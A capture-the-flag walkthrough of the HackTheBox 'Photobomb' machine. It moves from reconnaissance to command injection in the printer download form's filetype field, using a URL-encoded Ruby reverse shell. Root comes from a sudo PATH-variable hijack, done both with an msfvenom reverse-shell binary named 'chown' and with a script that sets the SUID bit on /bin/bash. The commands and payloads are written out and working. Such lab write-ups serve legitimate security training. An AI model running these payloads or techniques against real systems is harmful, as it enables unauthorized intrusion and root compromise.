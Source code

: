 ![image](https://user-images.githubusercontent.com/105310322/195705375-63f90af6-b2f9-4c0c-bee0-408ea2dc6cbf.png)

### Tools: msfvenom

### Vulnerabilities: Command Execution,Sudo: Change Path Variable

Nmap gives shows a webpage and ssh is open.

```console
└─$ nmap -A -p- -T4 -Pn 10.129.44.124
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-13 10:04 CDT
Nmap scan report for 10.129.44.124
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.92 seconds
```

Accessing the webpage and looking at the source code we can find a username and password. ```pH0t0:b0Mb!```

http://pH0t0:b0Mb!@photobomb.htb/printer


![image](https://user-images.githubusercontent.com/105310322/195695976-b76720b2-7e3e-4d69-ab9d-9a08f19ac0ca.png)

Next we come to a page with pictures and a download section.

![image](https://user-images.githubusercontent.com/105310322/195698235-51057170-a92d-4bf5-b0be-7c14975b6f8f.png)


Before we get the the actual attack vector I tried a couple of different things.

In burp if we intercept the download page and get rid of fields except for the picture and then send it. This will actually bring us to a page that gives lots of information about what the webapp is running.

![image](https://user-images.githubusercontent.com/105310322/195699039-242afef3-3cf7-4eab-a376-e9d8f59e9b44.png)


I started with trying to exploit Sinatra with a directory traversal but the page confirmed that their were protections in place against it.

![image](https://user-images.githubusercontent.com/105310322/195699527-fc9a80e0-0ad5-46d3-90f9-037f80d8b313.png)

Also by trying to access other directories it will bring us to this page that confirms it is running Sinatra.

http://photobomb.htb/printerfriendly

![image](https://user-images.githubusercontent.com/105310322/195699688-cec33e27-e9d5-42c7-9000-94a8cc72ee7f.png)

Now on to the actual Attack Vector!


In BurpSuite intercept the ```Download Photo To Print``` and send it to repeater.

In the file field we can implant a reverse shell.

I used ```ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.11",1234))'``` and URL encoded it.

After crafting your payload it should look something like below.

Set up your listener and send your payload.

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 316
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=eleanor-brooke-w-TLY0Ym4rM-unsplash.jpg&filetype=jpg;%72%75%62%79%20%2d%72%73%6f%63%6b%65%74%20%2d%65%27%73%70%61%77%6e%28%22%73%68%22%2c%5b%3a%69%6e%2c%3a%6f%75%74%2c%3a%65%72%72%5d%3d%3e%54%43%50%53%6f%63%6b%65%74%2e%6e%65%77%28%22%31%30%2e%31%30%2e%31%36%2e%31%31%22%2c%35%35%35%35%29%29%27&dimensions=30x20
```

We get a shell as wizard!

```console
└─$ nc -lvnp 1234                    
listening on [any] 1234 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.44.124] 49918
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
```

Running sudo -l reveals that we can run cleanup.sh, but we can also set the PATH variable.

```console
wizard@photobomb:/tmp$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Checking out cleanup.sh shows that it is running chown whenever cleanup.sh is ran.

Our plan of attack is to have cleanup.sh read our own file chown before anything else. 

```
wizard@photobomb:/tmp$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```


So we can either create a reverse shell with msfvenom or change the suid bit on /bin/bash. I will show both.


Create your reverse shell and be sure to name it chown and then transfer it to the victim computer.

Note: Be sure to chmod your chown before trying to exploit. ie ```chmod 777 chown```

```console
└─$ msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.16.11 lport=1235 -f elf -o chown
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: chown
```

The following command places /tmp as the first place in the path. This is where our chown is located. Set up our listener and grab it!

```console
wizard@photobomb:/tmp$ sudo PATH=/tmp\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh
```
Awesome we got a root with a reverse shell.

```console
└─$ nc -lvnp 1235
listening on [any] 1235 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.44.124] 51630
id
uid=0(root) gid=0(root) groups=0(root)
```

This payload is the same thing except my chown has my own script in it. I placed this chown in /dev/shm

```
#!/bin/bash
chmod u+s /bin/bash
```
Next I do the same thing but instead place /dev/shm in front of the others to be called first.

Note: not putting the full paths for the other directory calls can mess up other commands that need to be ran.


After running it we can check the permissions to verify our suid bit and then run ```bash -p``` to execute as root!

```console
wizard@photobomb:/tmp$ sudo PATH=/dev/shm\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh
<n\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh
wizard@photobomb:/tmp$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18 09:14 /bin/bash
wizard@photobomb:/tmp$ bash -p
bash -p
bash-5.0# id
id
uid=1000(wizard) gid=1000(wizard) euid=0(root) groups=1000(wizard)
bash-5.0# 
```

```console
bash-5.0# cat /home/wizard/user.txt
cat /home/wizard/user.txt
bc45****************************
bash-5.0# cat /root/root.txt
cat /root/root.txt
5ab2****************************
```

Congratulations everyone!
